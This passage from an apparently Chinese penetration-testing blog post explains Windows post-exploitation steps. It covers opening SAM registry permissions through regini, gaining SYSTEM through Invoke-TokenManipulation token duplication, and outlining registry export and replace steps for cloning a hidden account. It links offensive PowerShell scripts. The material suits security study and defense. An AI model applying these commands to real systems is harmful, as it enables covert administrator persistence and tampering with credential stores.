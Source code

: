 ```
HKEY_LOCAL_MACHINE\SAM\SAM\* [1 17]
```

**注：**

`*`代表枚举所有子键

1代表Administrators 完全访问

17代表System 完全访问

详细权限说明可通过cmd执行`regini`获取帮助，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-11-10/3-1.png)

通过regini注册:

```
regini  a.ini
```

Evilcg就是通过这种方式实现的，脚本地址：

https://github.com/Ridter/Pentest/blob/master/powershell/MyShell/Create-Clone.ps1

**注：**

使用`*`需要system权限,但只把相关的列举出来，只需要管理员权限即可，例如：

```
HKEY_LOCAL_MACHINE\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users [1 17]
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names [1 17]
```



### 2、直接获得System权限

我在之前的文章[《渗透技巧——Token窃取与利用》](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%8A%80%E5%B7%A7-Token%E7%AA%83%E5%8F%96%E4%B8%8E%E5%88%A9%E7%94%A8/)介绍过通过token复制获得system权限的方法

所以，可以先获得System权限，进而拥有对注册表的编辑权限

简单的方式，通过`Invoke-TokenManipulation.ps1`，地址如下：

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-TokenManipulation.ps1

但我在测试时发现了一个bug，使用`Invoke-TokenManipulation -ImpersonateUser -Username "nt authority\system"`无法将当前权限切换为System权限

但可以使用`Invoke-TokenManipulation -CreateProcess "cmd.exe" -Username "nt authority\system"`新打开一个System权限的进程

接下来，就是编写脚本实现注册表的导出替换功能：

- 新建测试帐户
- 将注册表导出到temp目录，进行替换
- 删除特殊帐户
- 导入注册表文件
